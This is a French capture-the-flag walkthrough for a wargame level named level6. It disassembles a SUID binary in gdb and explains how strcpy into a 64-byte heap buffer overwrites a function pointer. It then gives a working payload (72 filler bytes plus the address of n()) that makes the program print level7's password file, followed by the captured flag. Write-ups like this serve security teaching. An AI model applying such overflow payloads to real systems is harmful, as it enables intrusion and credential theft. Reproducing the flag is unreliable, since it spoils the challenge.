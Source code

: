 ## Analyse

- `ls -la`
  ```
  [...]
    -rwsr-s---+ 1 level7 users  5274 Mar  6  2016 level6
  [...]
  ```
    - On a un binaire appartenant a level7 dans le home avec les droits SUID.

- `./level6`
  ```
  Segmentation fault (core dumped)
  ```
  - Le programme Segfault sans argument
- `./level6 test`
  ```
  Nope
  ```
  - Le programme affiche Nope avec un argument

- `gdb level6`
  - `set disassembly-flavor intel`
  - `info function`
    ```asm
    [...]
      0x08048454  n
      0x08048468  m
      0x0804847c  main
    [...]
    ```
    - on trouve une fonction n() et une fonction m() en plus du main
  - `disas main`
    ```asm
    Dump of assembler code for function main:
       0x0804847c <+0>:	push   ebp
       0x0804847d <+1>:	mov    ebp,esp
       0x0804847f <+3>:	and    esp,0xfffffff0
       0x08048482 <+6>:	sub    esp,0x20
       0x08048485 <+9>:	mov    DWORD PTR [esp],0x40
       0x0804848c <+16>:	call   0x8048350 <malloc@plt>
       0x08048491 <+21>:	mov    DWORD PTR [esp+0x1c],eax
       0x08048495 <+25>:	mov    DWORD PTR [esp],0x4
       0x0804849c <+32>:	call   0x8048350 <malloc@plt>
       0x080484a1 <+37>:	mov    DWORD PTR [esp+0x18],eax
       0x080484a5 <+41>:	mov    edx,0x8048468
       0x080484aa <+46>:	mov    eax,DWORD PTR [esp+0x18]
       0x080484ae <+50>:	mov    DWORD PTR [eax],edx
       0x080484b0 <+52>:	mov    eax,DWORD PTR [ebp+0xc]
       0x080484b3 <+55>:	add    eax,0x4
       0x080484b6 <+58>:	mov    eax,DWORD PTR [eax]
       0x080484b8 <+60>:	mov    edx,eax
       0x080484ba <+62>:	mov    eax,DWORD PTR [esp+0x1c]
       0x080484be <+66>:	mov    DWORD PTR [esp+0x4],edx
       0x080484c2 <+70>:	mov    DWORD PTR [esp],eax
       0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
       0x080484ca <+78>:	mov    eax,DWORD PTR [esp+0x18]
       0x080484ce <+82>:	mov    eax,DWORD PTR [eax]
       0x080484d0 <+84>:	call   eax
       0x080484d2 <+86>:	leave
       0x080484d3 <+87>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+6>
      - Initialisation de la mémoire (libère 32 octets pour la stack), alignement de la stack<br/><br/>
    - <+9> ... <+21>
      - Stocke 0x40 (64) sur la stack (à esp)
      - Call malloc() avec l'argument stocké sur la stack
      - Stocke eax (le retour du malloc) sur la stack (à esp + 28)<br/><br/>
    - <+25> ... <+37>
      - Stocke 0x4 (4) sur la stack (a esp)
      - Call malloc() avec l'argument stocké sur la stack
      - Stocke eax (le retour du malloc) sur la stack (à esp + 24)<br/><br/>
    - <+41> ... <+73>
      - Stocke la valeur de 0x8048468 dans edx
        - `x/s 0x8048468`
          ```
          0x8048468 <m>:	 "U\211\345\203\354\030\307\004$х\004\b\350\346\376\377\377\311\303U\211\345\203\344\360\203\354 \307\004$@"
          ```
      - Fait pointer eax sur esp + 24 (le retour du malloc(4))
      - Stocke la valeur de edx (l'adresse de m()) dans eax (malloc(4) => m())
      - Fait pointer eax sur ebp + 12 (&argv)
      - Incrémente eax de 4 (&argv[1])
      - Stocke la valeur à l'adresse de eax dans eax
      - Stocke eax (argv[1]) dans edx
      - Stocke la valeur à esp + 28 (le retour du malloc(64)) dans eax
      - Stocke edx (argv[1]) sur la stack (à esp + 4)
      - Stocke eax (le retour du malloc(64)) sur la stack (à esp)
      - Call strcpy() avec les arguments stockés sur la stack<br/><br/>
    - <+78> ... <+84>
      - Stocke la valeur à esp + 24 (le malloc(4) contenant l'adresse de m()) dans eax
      - Stocke la valeur à l'adresse de eax (l'adresse de m()) dans eax
      - Call eax (donc call m())<br/><br/>
    - <+86> ... <+87>
      - Réinitialisation de la mémoire, fin d'exécution<br/><br/>

  - `disas m`
    ```asm
    Dump of assembler code for function m:
       0x08048468 <+0>:	push   ebp
       0x08048469 <+1>:	mov    ebp,esp
       0x0804846b <+3>:	sub    esp,0x18
       0x0804846e <+6>:	mov    DWORD PTR [esp],0x80485d1
       0x08048475 <+13>:	call   0x8048360 <puts@plt>
       0x0804847a <+18>:	leave
       0x0804847b <+19>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire (libère 24 octets pour la stack)<br/><br/>
    - <+6> ... <+13>
      - Stocke la valeur de 0x80485d1 sur la stack (à esp)
        - `x/s 0x80485d1`
          ```
          0x80485d1:	 "Nope"
          ```
      - Call puts() avec l'argument stocké sur la stack<br/><br/>
    - <+18> ... <+19>
      - Réinitialisation de la mémoire, fin d'exécution<br/><br/>

  - `disas n`
    ```asm
    Dump of assembler code for function n:
       0x08048454 <+0>:	push   ebp
       0x08048455 <+1>:	mov    ebp,esp
       0x08048457 <+3>:	sub    esp,0x18
       0x0804845a <+6>:	mov    DWORD PTR [esp],0x80485b0
       0x08048461 <+13>:	call   0x8048370 <system@plt>
       0x08048466 <+18>:	leave
       0x08048467 <+19>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire (libère 24 octets pour la stack)<br/><br/>
    - <+6> ... <+13>
      - Stocke la valeur de 0x80485b0 sur la stack (à esp)
        - `x/s 0x80485b0`
          ```
          0x80485b0:	 "/bin/cat /home/user/level7/.pass"
          ```
      - Call system() avec l'argument stocké sur la stack<br/><br/>
    - <+18> ... <+19>
      - Réinitialisation de la mémoire, fin d'exécution<br/><br/>

## Exploit

La fonction main() fait deux appels à malloc():
- malloc(64) où on va venir copier notre input avec strcpy()
- malloc(4) oû on va stocker l'adresse de la fonction à exécuter à <main+84> (en l'occurence l'adresse de m())

La fonction m() affiche "Nope" et la fonction n() affiche le contenu du fichier .pass mais n'est pas appelée.
On comprend que l'on va devoir profiter de [la vulérabilité de strcpy() à un buffer overflow](https://www.cisa.gov/uscert/bsi/articles/knowledge/coding-practices/strcpy-and-strcat) pour réécrire l'eip ave l'adresse de n().

On cherche l'offset:
- `gdb level6`
  - `run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A`
    ```
    Starting program: /home/user/level6/level6 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

    Program received signal SIGSEGV, Segmentation fault.
    0x41346341 in ?? ()
    ```
    - [Le générateur](https://wiremask.eu/tools/buffer-overflow-pattern-generator) nous indique qu'on atteint l'offset à 72
 
 On Lance ./level6 avec un payload avec 72 octets random, puis l'adresse de n() en little endian:
 - `./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')`
  ```
  f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
  ```
